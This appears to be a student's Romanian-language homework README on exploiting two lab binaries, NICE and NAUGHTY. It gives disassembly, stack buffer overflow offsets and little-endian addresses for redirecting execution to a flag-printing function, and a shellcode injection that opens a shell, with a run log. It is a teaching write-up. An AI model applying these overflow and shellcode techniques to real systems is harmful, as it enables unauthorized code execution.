 ## Fisierul NICE

### Analiza binarului

Functia vulnerabila se afla la adresa 0x08049329. In aceasta functie, se aloca
spatiu pentru 0x2f9 bytes. Apoi este salvata pe stiva, mai exact la pozitia
ebp-0x1de, adresa unei functii (0x80492c8). Urmeaza apoi o citere de la tasta-
tura. Daca se citesc maxim 0x2f9-0x1de=283 bytes, nu va fi nicio problema. In
schimb daca se citesc mai multi, se va suprascrie adresa functiei salvata pe
stiva si programul va functiona diferit, intruact ulterior, functia de la acea
adresa va fi apelata. Asa cum se poate observa din codul de mai jos, se citesc
0x2f9 bytes, deci adresa acelei functii va putea fi suprascrisa.


 8049329:       55                      push   ebp\
 804932a:       89 e5                   mov    ebp,esp\
 804932c:       81 ec f9 02 00 00       sub    esp,0x2f9\
 8049332:       c7 85 22 fe ff ff c8    mov    DWORD PTR [ebp-0x1de],0x80492c8\
 8049339:       92 04 08 \
 804933c:       89 e2                   mov    edx,esp\
 804933e:       68 f9 02 00 00          push   0x2f9\
 8049343:       52                      push   edx\
 8049344:       6a 00                   push   0x0\
 8049346:       e8 e5 fc ff ff          call   8049030 \<read@plt>\
 804934b:       8b 85 22 fe ff ff       mov    eax,DWORD PTR \[ebp-0x1de]\
 8049351:       ff d0                   call   eax\
 8049353:       c9                      leave  \
 8049354:       c3                      ret    \


### Spargerea binarului

Este suficient sa suprascriu adresa acelei functii cu o alta adresa care va
genera mesajul dorit. Aceasta adresa este 0x08049291 deoarece:

- la eticheta print_flag se afla 7 functii (se observa 7 cadre de stiva);
- main-ul contine 4 functii care doar citesc un numar de bytes si inca una
vulnerabila (cea de a patra);
- a doua functie din print_flag este cea la care "se sare", daca nu este
exploatata vulnerabilitatea, programul afisand "All done...";
- ramane astfel o singura functie, avand adresa 8049291, in corpul careia se
poate observa un apel al functiei "puts", care probabil printeaza mesajul
NICE_FLAG{...}.


 8049291:       55                      push   ebp
 8049292:       89 e5                   mov    ebp,esp
 8049294:       6a 04                   push   0x4
 8049296:       68 66 c0 04 08          push   0x804c066
 804929b:       6a 00                   push   0x0
 804929d:       6a 00                   push   0x0
 804929f:       6a 00                   push   0x0
 80492a1:       6a 00                   push   0x0
 80492a3:       e8 c8 fd ff ff          call   8049070 <ptrace@plt>
 80492a8:       83 c4 10                add    esp,0x10
 80492ab:       83 f8 ff                cmp    eax,0xffffffff
 80492ae:       75 07                   jne    80492b7 <print_flag+0x26>
 80492b0:       6a 01                   push   0x1
 80492b2:       e8 99 fd ff ff          call   8049050 <exit@plt>
 80492b7:       e8 99 ff ff ff          call   8049255 <__x86.get_pc_thunk.bx+0x185>
 80492bc:       68 28 c0 04 08          push   0x804c028
 80492c1:       e8 7a fd ff ff          call   8049040 <puts@plt>
 80492c6:       c9                      leave  
 80492c7:       c3                      ret    


Astfel, pentru a sparge binarul, am citit de la tastatura:

- 98 bytes pentru prima functie, intrucat functia executa exact aceasta
operatie;
- 297 bytes pentru a doua, din acelasi motiv;
- 229 bytes pentru a treia, din acelasi motiv;
- 283 bytes pentru a patra la care am adaugat noua adresa, 0x08049291,
scrisa in little endian.



## Fisierul NAUGHTY

### Spargerea binarului

Vulnerabilitatea in acest binar este o functie care citeste pe stiva mai mult
decat se alocase inainte, putand astfel modifica adresa de retur a functiei
apelante. Concret, a patra functie apelata din main, ce are adresa  0x08049362,
aloca 0x1f2 bytes si citeste 0x34d bytes.


 8049362:       55                      push   ebp
 8049363:       89 e5                   mov    ebp,esp
 8049365:       81 ec f2 01 00 00       sub    esp,0x1f2
 804936b:       89 e2                   mov    edx,esp
 804936d:       68 4b 03 00 00          push   0x34b
 8049372:       52                      push   edx
 8049373:       6a 00                   push   0x0
 8049375:       e8 b6 fc ff ff          call   8049030 <read@plt>
 804937a:       81 bd 75 ff ff ff 88    cmp    DWORD PTR [ebp-0x8b],0xbb4488
 8049381:       44 bb 00 
 8049384:       74 07                   je     804938d <print_flag+0xfc>
 8049386:       6a 01                   push   0x1
 8049388:       e8 c3 fc ff ff          call   8049050 <exit@plt>
 804938d:       c9                      leave  
 804938e:       c3                      ret


Pentru a putea sparge binarul, trebuie ca primele 3 functii apelate din main
sa nu treaca de if-ul corespunzator verificarii unui element citit cu o valoare
data in program. Astfel, prima functie din main, cea de la adresa 0x080492de:

- aloca 0x10d bytes si citeste de la ebp-0x10d in sus, 0xcf bytes;
- compara numarul de la ebp-0xb9 cu valoarea 0x3113cc71, iar daca sunt egale se
continua executia programului.


 80492de:       55                      push   ebp
 80492df:       89 e5                   mov    ebp,esp
 80492e1:       81 ec 0d 01 00 00       sub    esp,0x10d
 80492e7:       89 e2                   mov    edx,esp
 80492e9:       68 cf 00 00 00          push   0xcf
 80492ee:       52                      push   edx
 80492ef:       6a 00                   push   0x0
 80492f1:       e8 3a fd ff ff          call   8049030 <read@plt>
 80492f6:       81 bd 47 ff ff ff 71    cmp    DWORD PTR [ebp-0xb9],0x3113cc71
 80492fd:       cc 13 31 
 8049300:       74 07                   je     8049309 <print_flag+0x78>
 8049302:       6a 01                   push   0x1
 8049304:       e8 47 fd ff ff          call   8049050 <exit@plt>
 8049309:       c9                      leave  
 804930a:       c3                      ret


Deci trebuie avut grija cand citesc de la tastatura, sa introduc 0x10d-0xb9=84
bytes random, apoi numarul 0x3113cc71, in little endian si apoi inca 0xcf-84-4=119
bytes random pentru a continua executia programului.

Pentru urmatoarele doua functii se procedeaza identic.

Pentru a patra functie, unde se citeste mai mult decat se aloca, se citeste prac-
tic intreg numarul de bytes alocat si anume 0x1f2 bytes, avand grija ca mai sus
sa pun numarul corect pe pozitia indicata, iar apoi se citesc inca 4 bytes random
pentru a suprascrie vechiul ebp salvat pe stiva. In final se citeste de la tasta-
tura noua adresa a functiei la care "va sari" executia programului. Practic se
pune adresa 0x08049291, scrisa desigur in little endian, explicatia fiind simi-
lara cu cea din binarul NICE.

In acest fel, functia la care se trece va afisa mesajul "NAUGHTY_FLAG{...}".



### Shellcode

Folosind din nou binarul NAUGHTY, exploatam vulnerabilitatea prezentata anterior
din a patra functie. Ideea este ca in loc sa citim o gramada de caractere
garbage, la un moment dat sa citim codul unei functii care deschide un shell.

Asadar, am dat ca input pentru functia respectiva:
- 100 caractere garbage;
- un string in hexa de 55 bytes care reprezinta codul unei functii ce deschide
un shell (luat de la urmatorul [link](http://shell-storm.org/shellcode/files/shellcode-811.php))
- inca 204 caractere garbage;
- numarul "\x88\x44\xbb\x00", pentru a trece de if-ul care compara valoarea de
la pozitia la care am ajuns cu acest numar;
- inca 139 de caractere garbage astfel incat sa suprasciu tot pana la vechiul
ebp salvat, urmand sa suprascriu si adresa de return;
- "\x7a\xd0\xff\xff", noua adresa de return, care reprezinta de fapt adresa la
care este stocat shellcode-ul citit anterior de la tastatura.

Aceasta noua adresa de return se gaseste cu ajutorul gdb-ului, astfel ca aflu
la ce adresa pointeaza ebp-ul si adun 100, pentru ca am, inainte de citirea
shellcode-ului, am citit 100 bytes garbage. Astfel, obtin adresa de pe stiva la
care este salvat shellcode-ul.

#### Exemplu de rulare

student@IOCLA:~/tema4$ ./naughty < naughty_shellcode 
\$ ls
README	naughty  naughty_payload  naughty_shellcode  nice  nice_payload  tema4.zip
\$ pwd
/home/student/tema4
\$ exit
student@IOCLA:~/tema4$ 


